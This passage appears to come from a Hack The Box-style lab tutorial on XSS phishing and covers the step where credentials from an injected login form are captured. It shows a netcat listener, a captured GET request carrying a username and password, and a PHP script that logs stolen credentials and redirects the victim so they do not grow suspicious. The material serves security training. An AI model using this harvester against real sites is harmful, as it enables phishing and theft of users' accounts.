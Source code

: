 Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:



```shell-session
smoothment@htb[/htb]$ sudo nc -lvnp 80
listening on [any] 80 ...
```

Now, let's attempt to login with the credentials `test:test`, and check the `netcat` output we get (`don't forget to replace OUR_IP in the XSS payload with your actual IP`):


```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

As we can see, we can capture the credentials in the HTTP request URL (`/?username=test&password=test`). If any victim attempts to log in with the form, we will get their credentials.

However, as we are only listening with a `netcat` listener, it will not handle the HTTP request correctly, and the victim would get an `Unable to connect` error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.

The following PHP script should do what we need, and we will write it to a file on our VM that we'll call `index.php` and place it in `/tmp/tmpserver/` (`don't forget to replace SERVER_IP with the ip from our exercise`):


```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:



```shell-session
smoothment@htb[/htb]$ mkdir /tmp/tmpserver
smoothment@htb[/htb]$ cd /tmp/tmpserver
smoothment@htb[/htb]$ vi index.php #at this step we wrote our index.php file
smoothment@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
